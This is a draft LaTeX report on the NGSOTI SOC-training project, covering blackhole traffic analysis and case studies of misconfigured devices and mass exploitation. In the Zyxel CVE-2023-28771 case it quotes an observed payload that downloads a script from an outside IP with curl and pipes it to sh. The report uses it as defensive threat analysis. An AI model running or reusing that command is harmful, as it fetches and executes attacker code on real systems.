% Abstract
\chapter*{Abstract}
The Next Generation Security Operator Training Infrastructure (NGSOTI) aims to provide an open-source environment for Security Operations Center (SOC) operators to train in handling network-related alerts. This document outlines the objectives, methodologies, and findings of the NGSOTI project, including a detailed analysis of misconfigured systems and blackhole traffic data.

% Table of Contents
\tableofcontents

% Chapter 1: Introduction
\chapter{Introduction}
The NGSOTI project is a collaborative effort aimed at enhancing the training infrastructure for SOC operators. Coordinated by CIRCL, the initiative involves partnerships with Restena, Tenzir, and the University of Luxembourg. The project began on January 1, 2024, and is scheduled to conclude on December 31, 2026, with a total budget of €1,477,349.00. CIRCL leads the effort as the project coordinator, with additional funding provided by the European Union.

NGSOTI's primary goal is to equip SOC operators with practical tools and methodologies to handle real-world incidents. {\color{red} it is set to to bridge the gap between theoretical knowledge and practical application, preparing operators for evolving threats through hands-on experience}. By leveraging open-source technologies, the project seeks to create a training platform that emphasizes practical skills, ensuring operators are well-prepared for emerging cybersecurity challenges. 

{\color{red}Moreover, the datasets created and collected thourghout the life span of the project are currently and will be used for research to understand attacks spread and occurence, detect new types of threats and model them to build predictive and preventive systems that will help SOC operators in improving detection methods. The important aspect of NGSOTI data is that it is real data and recorded in live mode, especially for the blackhole data which provide a real-time view on cyber-attack landscape.}

{\color{red}This report is structured as follows: Chapter 2 revisits the project's objectives, Chapter 3 combines blackhole traffic analysis with key observations, and Chapter 4 presents real-world case studies derived from the blackhole data, and finally a conclusion in chapter 5.}


% Chapter 2: Objectives
\chapter{Objectives}
The NGSOTI project aims to establish an open-source infrastructure tailored for SOC operator training. The infrastructure is designed to address key aspects of cybersecurity operations, including incident response {\color{red} which would equip operators with tools to swiftly detect and mitigate threats, as well as handling crisis situations}; log management, {\color{red} which is essential for analyzing vast amounts of data recorded from multiples devices in a network, and take appropriate actions} and SOC management processes {\color{red} to better streamline operational efficiency}. Additionally, the project emphasizes communication {\color{red} for a better team coordination}, documentation {\color{red} for an accurate reporting and swift handling of issues}, and the integration of cyber threat intelligence (CTI) using tools like MISP, {\color{red} which provide actionable insights into emerging threats and would enable a better prevention when combined with other tools and sensors like the blackhole.}

By employing technologies such as Suricata {\color{red} for intrusion detection}, Zeek {\color{red} for detailed network logs}, and Tenzir \todo{which specific Tenzir's tool we could mention here?} {\color{red} [probably] data processing platform ? to handle large-scale security data}, the project seeks to enhance intrusion detection and analysis capabilities. Tools like FlowIntel for case management and OpenNMS for monitoring are also integral to the training platform. Furthermore, the action incorporates MeliCERTes' Cerebrate tool, {\color{red} which improves collaboration and intelligence sharing across security communities} ensuring a comprehensive approach to SOC training.




% Chapter 3: Blackhole Traffic Analysis
\chapter{Blackhole Traffic Analysis}

{\color{red} \section{Blackhole Data Overview}}

The project uses a methodical approach to analyze misconfigured systems by routing unused network ranges to a specific IP address for full packet capture. This setup allows for the collection of data on network activities that may indicate misconfigurations or malicious behavior. The captured data is streamed unidirectionally to a D4 collector, enabling a detailed analysis of the traffic.

The dataset analyzed during the project spans from January 1, 2024, to October 17, 2024, and includes over 10,226 unique destination IP addresses. In total, 4.31 TB of data was collected. This data provides invaluable insights into the nature of misconfigured devices and the patterns of malicious activities observed within the blackhole networks.

An evolution of the volume of the dataset is shown in figured \ref{countedpacket}. \todo{I'd  also suggest to add a brief description of what the figure shows in terms of patterns and visible findings}

\begin{figure}
    % GNUPLOT: LaTeX picture with Postscript
\begingroup
  \makeatletter
  \providecommand\color[2][]{%
    \GenericError{(gnuplot) \space\space\space\@spaces}{%
      Package color not loaded in conjunction with
      terminal option `colourtext'%
    }{See the gnuplot documentation for explanation.%
    }{Either use 'blacktext' in gnuplot or load the package
      color.sty in LaTeX.}%
    \renewcommand\color[2][]{}%
  }%
  \providecommand\includegraphics[2][]{%
    \GenericError{(gnuplot) \space\space\space\@spaces}{%
      Package graphicx or graphics not loaded%
    }{See the gnuplot documentation for explanation.%
    }{The gnuplot epslatex terminal needs graphicx.sty or graphics.sty.}%
    \renewcommand\includegraphics[2][]{}%
  }%
  \providecommand\rotatebox[2]{#2}%
  \@ifundefined{ifGPcolor}{%
    \newif\ifGPcolor
    \GPcolortrue
  }{}%
  \@ifundefined{ifGPblacktext}{%
    \newif\ifGPblacktext
    \GPblacktexttrue
  }{}%
  % define a \g@addto@macro without @ in the name:
  \let\gplgaddtomacro\g@addto@macro
  % define empty templates for all commands taking text:
  \gdef\gplbacktext{}%
  \gdef\gplfronttext{}%
  \makeatother
  \ifGPblacktext
    % no textcolor at all
    \def\colorrgb#1{}%
    \def\colorgray#1{}%
  \else
    % gray or color?
    \ifGPcolor
      \def\colorrgb#1{\color[rgb]{#1}}%
      \def\colorgray#1{\color[gray]{#1}}%
      \expandafter\def\csname LTw\endcsname{\color{white}}%
      \expandafter\def\csname LTb\endcsname{\color{black}}%
      \expandafter\def\csname LTa\endcsname{\color{black}}%
      \expandafter\def\csname LT0\endcsname{\color[rgb]{1,0,0}}%
      \expandafter\def\csname LT1\endcsname{\color[rgb]{0,1,0}}%
      \expandafter\def\csname LT2\endcsname{\color[rgb]{0,0,1}}%
      \expandafter\def\csname LT3\endcsname{\color[rgb]{1,0,1}}%
      \expandafter\def\csname LT4\endcsname{\color[rgb]{0,1,1}}%
      \expandafter\def\csname LT5\endcsname{\color[rgb]{1,1,0}}%
      \expandafter\def\csname LT6\endcsname{\color[rgb]{0,0,0}}%
      \expandafter\def\csname LT7\endcsname{\color[rgb]{1,0.3,0}}%
      \expandafter\def\csname LT8\endcsname{\color[rgb]{0.5,0.5,0.5}}%
    \else
      % gray
      \def\colorrgb#1{\color{black}}%
      \def\colorgray#1{\color[gray]{#1}}%
      \expandafter\def\csname LTw\endcsname{\color{white}}%
      \expandafter\def\csname LTb\endcsname{\color{black}}%
      \expandafter\def\csname LTa\endcsname{\color{black}}%
      \expandafter\def\csname LT0\endcsname{\color{black}}%
      \expandafter\def\csname LT1\endcsname{\color{black}}%
      \expandafter\def\csname LT2\endcsname{\color{black}}%
      \expandafter\def\csname LT3\endcsname{\color{black}}%
      \expandafter\def\csname LT4\endcsname{\color{black}}%
      \expandafter\def\csname LT5\endcsname{\color{black}}%
      \expandafter\def\csname LT6\endcsname{\color{black}}%
      \expandafter\def\csname LT7\endcsname{\color{black}}%
      \expandafter\def\csname LT8\endcsname{\color{black}}%
    \fi
  \fi
    \setlength{\unitlength}{0.0500bp}%
    \ifx\gptboxheight\undefined%
      \newlength{\gptboxheight}%
      \newlength{\gptboxwidth}%
      \newsavebox{\gptboxtext}%
    \fi%
    \setlength{\fboxrule}{0.5pt}%
    \setlength{\fboxsep}{1pt}%
    \definecolor{tbcol}{rgb}{1,1,1}%
\begin{picture}(7200.00,5040.00)%
    \gplgaddtomacro\gplbacktext{%
      \csname LTb\endcsname%%
      \put(1342,1417){\makebox(0,0)[r]{\strut{}$5\times10^{7}$}}%
      \put(1342,1840){\makebox(0,0)[r]{\strut{}$1\times10^{8}$}}%
      \put(1342,2263){\makebox(0,0)[r]{\strut{}$1.5\times10^{8}$}}%
      \put(1342,2686){\makebox(0,0)[r]{\strut{}$2\times10^{8}$}}%
      \put(1342,3110){\makebox(0,0)[r]{\strut{}$2.5\times10^{8}$}}%
      \put(1342,3533){\makebox(0,0)[r]{\strut{}$3\times10^{8}$}}%
      \put(1342,3956){\makebox(0,0)[r]{\strut{}$3.5\times10^{8}$}}%
      \put(1342,4379){\makebox(0,0)[r]{\strut{}$4\times10^{8}$}}%
      \put(2044,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-02-01}}}%
      \put(2569,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-03-01}}}%
      \put(3148,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-04-01}}}%
      \put(3691,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-05-01}}}%
      \put(4271,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-06-01}}}%
      \put(4814,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-07-01}}}%
      \put(5393,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-08-01}}}%
      \put(5955,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-09-01}}}%
      \put(6516,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-10-01}}}%
    }%
    \gplgaddtomacro\gplfronttext{%
      \csname LTb\endcsname%%
      \put(209,2898){\rotatebox{-270}{\makebox(0,0){\strut{}Number of packets}}}%
      \put(4138,154){\makebox(0,0){\strut{}Date}}%
      \csname LTb\endcsname%%
      \put(4138,4709){\makebox(0,0){\strut{}Counted packets over time}}%
    }%
    \gplbacktext
    \put(0,0){
\includegraphics[width={360.00bp},height={252.00bp}]{img/counted-packets}}%
    \gplfronttext
  \end{picture}%
\endgroup

    \caption{Collected IP packets over time}
    \label{countedpacket}
\end{figure}

{\color{red} \section{Blackhole Data Overview}}

% Chapter 4: Observations
\chapter{Observations} 
\todo{I would suggest to move this as a section the previous chapter of blakhole data analysis}
Misconfigured devices are a recurring theme in the analysis. These misconfigurations often result from typographical errors or improper default routing setups. For instance, devices that send SYSLOG messages to unintended networks represent a common type of misconfiguration. Similarly, MikroTik routers are often observed connecting to external services, such as \texttt{cloud.mikrotik.com}, due to default configurations.

DNS misconfigurations are another significant finding. When a secondary DNS resolver is misconfigured, it frequently goes unnoticed, leading to unintended traffic redirection. These observations highlight the importance of proper configuration and monitoring practices to avoid exposing sensitive systems to potential threats.

% Chapter 5: Example Cases
\chapter{Example Cases}
\section{Mass Exploitation of Devices}
Mass exploitation campaigns are a critical concern in cybersecurity. Attackers often exploit known vulnerabilities as soon as they are disclosed.

Figure \ref{countedexploits} illustrates the evolution of exploits discovered over time in the dataset.

\begin{figure}
    % GNUPLOT: LaTeX picture with Postscript
\begingroup
  \makeatletter
  \providecommand\color[2][]{%
    \GenericError{(gnuplot) \space\space\space\@spaces}{%
      Package color not loaded in conjunction with
      terminal option `colourtext'%
    }{See the gnuplot documentation for explanation.%
    }{Either use 'blacktext' in gnuplot or load the package
      color.sty in LaTeX.}%
    \renewcommand\color[2][]{}%
  }%
  \providecommand\includegraphics[2][]{%
    \GenericError{(gnuplot) \space\space\space\@spaces}{%
      Package graphicx or graphics not loaded%
    }{See the gnuplot documentation for explanation.%
    }{The gnuplot epslatex terminal needs graphicx.sty or graphics.sty.}%
    \renewcommand\includegraphics[2][]{}%
  }%
  \providecommand\rotatebox[2]{#2}%
  \@ifundefined{ifGPcolor}{%
    \newif\ifGPcolor
    \GPcolortrue
  }{}%
  \@ifundefined{ifGPblacktext}{%
    \newif\ifGPblacktext
    \GPblacktexttrue
  }{}%
  % define a \g@addto@macro without @ in the name:
  \let\gplgaddtomacro\g@addto@macro
  % define empty templates for all commands taking text:
  \gdef\gplbacktext{}%
  \gdef\gplfronttext{}%
  \makeatother
  \ifGPblacktext
    % no textcolor at all
    \def\colorrgb#1{}%
    \def\colorgray#1{}%
  \else
    % gray or color?
    \ifGPcolor
      \def\colorrgb#1{\color[rgb]{#1}}%
      \def\colorgray#1{\color[gray]{#1}}%
      \expandafter\def\csname LTw\endcsname{\color{white}}%
      \expandafter\def\csname LTb\endcsname{\color{black}}%
      \expandafter\def\csname LTa\endcsname{\color{black}}%
      \expandafter\def\csname LT0\endcsname{\color[rgb]{1,0,0}}%
      \expandafter\def\csname LT1\endcsname{\color[rgb]{0,1,0}}%
      \expandafter\def\csname LT2\endcsname{\color[rgb]{0,0,1}}%
      \expandafter\def\csname LT3\endcsname{\color[rgb]{1,0,1}}%
      \expandafter\def\csname LT4\endcsname{\color[rgb]{0,1,1}}%
      \expandafter\def\csname LT5\endcsname{\color[rgb]{1,1,0}}%
      \expandafter\def\csname LT6\endcsname{\color[rgb]{0,0,0}}%
      \expandafter\def\csname LT7\endcsname{\color[rgb]{1,0.3,0}}%
      \expandafter\def\csname LT8\endcsname{\color[rgb]{0.5,0.5,0.5}}%
    \else
      % gray
      \def\colorrgb#1{\color{black}}%
      \def\colorgray#1{\color[gray]{#1}}%
      \expandafter\def\csname LTw\endcsname{\color{white}}%
      \expandafter\def\csname LTb\endcsname{\color{black}}%
      \expandafter\def\csname LTa\endcsname{\color{black}}%
      \expandafter\def\csname LT0\endcsname{\color{black}}%
      \expandafter\def\csname LT1\endcsname{\color{black}}%
      \expandafter\def\csname LT2\endcsname{\color{black}}%
      \expandafter\def\csname LT3\endcsname{\color{black}}%
      \expandafter\def\csname LT4\endcsname{\color{black}}%
      \expandafter\def\csname LT5\endcsname{\color{black}}%
      \expandafter\def\csname LT6\endcsname{\color{black}}%
      \expandafter\def\csname LT7\endcsname{\color{black}}%
      \expandafter\def\csname LT8\endcsname{\color{black}}%
    \fi
  \fi
    \setlength{\unitlength}{0.0500bp}%
    \ifx\gptboxheight\undefined%
      \newlength{\gptboxheight}%
      \newlength{\gptboxwidth}%
      \newsavebox{\gptboxtext}%
    \fi%
    \setlength{\fboxrule}{0.5pt}%
    \setlength{\fboxsep}{1pt}%
    \definecolor{tbcol}{rgb}{1,1,1}%
\begin{picture}(7200.00,5040.00)%
    \gplgaddtomacro\gplbacktext{%
      \csname LTb\endcsname%%
      \put(814,1417){\makebox(0,0)[r]{\strut{}$0$}}%
      \put(814,1911){\makebox(0,0)[r]{\strut{}$50$}}%
      \put(814,2404){\makebox(0,0)[r]{\strut{}$100$}}%
      \put(814,2898){\makebox(0,0)[r]{\strut{}$150$}}%
      \put(814,3392){\makebox(0,0)[r]{\strut{}$200$}}%
      \put(814,3885){\makebox(0,0)[r]{\strut{}$250$}}%
      \put(814,4379){\makebox(0,0)[r]{\strut{}$300$}}%
      \put(956,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-01-01}}}%
      \put(1591,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-02-01}}}%
      \put(2165,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-03-01}}}%
      \put(2800,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-04-01}}}%
      \put(3395,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-05-01}}}%
      \put(4029,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-06-01}}}%
      \put(4624,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-07-01}}}%
      \put(5259,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-08-01}}}%
      \put(5874,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-09-01}}}%
      \put(6488,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-10-01}}}%
    }%
    \gplgaddtomacro\gplfronttext{%
      \csname LTb\endcsname%%
      \put(209,2898){\rotatebox{-270}{\makebox(0,0){\strut{}Number of files}}}%
      \put(3874,154){\makebox(0,0){\strut{}Date}}%
      \csname LTb\endcsname%%
      \put(3874,4709){\makebox(0,0){\strut{}PCAP files with one or more exploit attempts}}%
    }%
    \gplbacktext
    \put(0,0){
\includegraphics[width={360.00bp},height={252.00bp}]{img/exploits}}%
    \gplfronttext
  \end{picture}%
\endgroup

    \caption{Discovered Exploits}
    \label{countedexploits}
\end{figure}
% Chapter 4: Observations


A notable example observed during the project was the exploitation of the Zyxel router vulnerability (CVE-2023-28771), which allowed attackers to bypass authentication. The exploitation involved malicious payloads, such as the following command executed on vulnerable systems:
\begin{verbatim}
bash -c "curl http://92.60.77.85/z -o-|sh";
\end{verbatim}
This case underscores the need for timely patching and proactive defense mechanisms to mitigate the risks associated with known vulnerabilities.

\section{SYSLOG Misconfigurations}
Another observed issue was the improper configuration of SYSLOG services. Devices inappropriately sent SYSLOG messages to blackhole networks. For example, a SYSLOG message from a misconfigured firewall contained the following:
\begin{verbatim}
2024-10-01 12:49:18 IP x.x.196.218.45389 > x.x.x.x.514: SYSLOG local0.info
\end{verbatim}
This type of misconfiguration can result in the unintentional exposure of internal system information, creating vulnerabilities for exploitation.

The sample of keywords was extracted from the syslog message to derive the origine of the devices.

        \begin{itemize}
            \item test\_notify\_glucose
            \item test\_notify\_hyperkalemia
            \item test\_notify\_hypokalemia
            \item test\_notify\_hyponatremia
            \item test\_notify\_na
            \item test\_xray\_report
            \item Gateway
            \item Internal
            \item Network
            \item Packet
            \item Policy
            \item SharedOfficeWAN
            \item Password
            \item Python
            \item Peer
            \item Pwn2Own
            \item Schneider
            \item ServiceDesk
            \item TELEPHONE
            \item ThawtePremiumServerCA
            \item ThawteCodeSigningCA
            \item WebAccess
            \item WebSupport
            \item Cisco
            \item CiscoBlogSmallBusiness
            \item vpncisco
            \item nettexvpn
            \item officevpn
            \item openvpn
            \item poavpn
            \item scancode\_vpn
        \end{itemize}

\section{Intercom Systems and XML Messages}
Misconfigured intercom systems were also identified during the analysis. For example, an intercom system transmitted an XML-based message containing sensitive details, such as device serial numbers and IP addresses:
\begin{verbatim}
<videoIntercomMsg>
<header>
<method>1</method>
<action>1</action>
<from><deviceSN>Q05586499</deviceSN></from>
</header>
</videoIntercomMsg>
\end{verbatim}
Such exposures highlight the risks associated with improper device configuration and the potential for unauthorized access to sensitive systems.


